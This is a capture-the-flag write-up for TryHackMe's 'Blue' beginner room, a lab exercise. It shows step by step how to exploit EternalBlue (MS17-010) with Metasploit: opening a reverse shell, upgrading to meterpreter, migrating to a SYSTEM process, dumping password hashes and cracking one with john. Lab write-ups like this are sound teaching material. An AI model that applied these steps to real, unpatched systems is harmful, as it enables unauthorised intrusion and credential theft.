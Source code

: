 ```yaml
---
layout: post
title: "Blue"
---
```




***Welcome to "Blue" room on [TryHackMe](https://www.tryhackme.com/room/blue). The room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners.***

*windows, eternal-blue, metasploit, MS17-010, CVE2017-0144* 




---------------------





*First connect to TryHackMe network and deploy the machine. If you don't know how to do this, check this [guide](https://ctfjournal.github.io/Connect-to-TryHackMe-VPN/).*








### Task1: Recon

The room focus will be on **CVE2017-0144**, also known as **"EternalBlue,"** which is a security vulnerability in the Microsoft Windows operating system that was discovered in 2017. It is a remote code execution vulnerability in the Microsoft Server Message Block (SMB) protocol, which is used for file sharing between computers.

This vulnerability allows an attacker to send specially crafted packets to a vulnerable computer and execute code remotely without the user's knowledge or permission. This can enable attackers to take over the affected system, steal sensitive information, or use the compromised system to launch further attacks against other systems.

**Scanning** with **nmap** reveals the open ports on the machine and since we know we will be exploiting SMB MS17-010, [445](https://www.varonis.com/blog/smb-port) will be our port of interest.



![img1](/assets/images/blue/img1.png)

-------------------

### Task2: Gain Access 

[Metasploit](https://tryhackme.com/room/rpmetasploit) is the tool we will use for exploiting the vulnerability. To start metasploit, run ***msfconsole*** terminal command.

We can initially use the scanner to confirm the machine is vulnerable to the exploit.
   - **search** for term *"eternal blue"*
   - **use** 3: this will use the 3rd module in the list, which is the scanner for MS17-010
   - **set rhosts** *target_ip*
   - **run**

The module executes and indicates that the machine is likely vulnerable. 


![img2](/assets/images/blue/img2.png)

Same as we did at the previous step, we will seach again for *"eternal blue"*(this time, the exploit module, not the scanner) and select the appropriate module. 

 Here are the steps for selecting the EternalBlue exploit with the shell/reverse_tcp payload in Metasploit:

    Open Metasploit framework.
    Type 'search eternal blue'
    Select the module by typing the number in front of it (e.g.'use 3'
    Without searching, you can achieve the same result, by running 'use exploit/windows/smb/ms17_010_eternalblue'
    Type 'set RHOSTS <target IP address>' to set the IP address of the target machine.
    Type 'set LHOST <your IP address>' to set the IP address of the attacker machine.
    Type 'run' to execute the exploit.




![img3](/assets/images/blue/img3.png)

If successful, you should see a windows shell opened with the reverse connection established.

![img4](/assets/images/blue/img4.png)


We could have used a meterpreter payload instead of shell, by selecting the following: *'set payload windows/x64/meterpreter/reverse_tcp'*

Meterpreter sessions are better than shells because they are more stealthy, flexible, secure, persistent, and interactive. They offer a user-friendly interface with a range of options and functionality that make them more powerful and versatile than standard shells.

The next task will teach how to upgrade a shell and escalate privileges.


---------------------------

### Task3: Escalate

Background the existing shell session with **ctrl+z** then use the **post** module *post/multi/manage/shell_to_meterpreter*

Looking at the options, we see that all we need to do is to set the session number that needs to be upgraded to meterpreter and then **run**

A new session will be opened. To interract with it, type **sessions -i** *session_number*. 


![img5](/assets/images/blue/img5.png)

Now we can escalate privileges by migrating our meterpreter shell to a process in windows that runs as NT AUTHORITY\SYSTEM. 

- **ps** - list the running processes
- **migrate** - move the shell to a different process.

Listing the processes, we see the spool service runs with elevated privileges. Let's attempt to migrate

![img6](/assets/images/blue/img6.png)

On the 1st attempt the session crashed, so i had to start from scratch, but it worked on the 2nd attempt

-----------------------------

### Task4: Cracking


Let's talk about how passwords are stored on computers. When you create a password, it's not saved as plain text. Instead, the computer converts it into an unreadable string of characters called a hash. This process is called password hashing. Some hashing schemes are more difficult to crack than others. In the past, Windows used LM hashing to store passwords but has since switched to NTLM. Password cracking techniques vary depending on the situation, and different tools are used for different techniques. 


Having sufficient privileges, we can dump the hashes for all users passwords, by running **hashdump**

![img7](/assets/images/blue/img7.png)


We are aiming to crack Jon's hash, so let's add the hashes to a text file and use **john** along with **rockyou.txt** dictionary


![img8](/assets/images/blue/img8.png)

---------------------

### Task5: Find Flags


And for the final task, we need to find the flags. That can be done very easy using **meterpreter**'s **search** command with some wildcards, to look for files containing the word "flag" in their name. 

![img9](/assets/images/blue/img9.png)


That's it, room is done!

----------------------

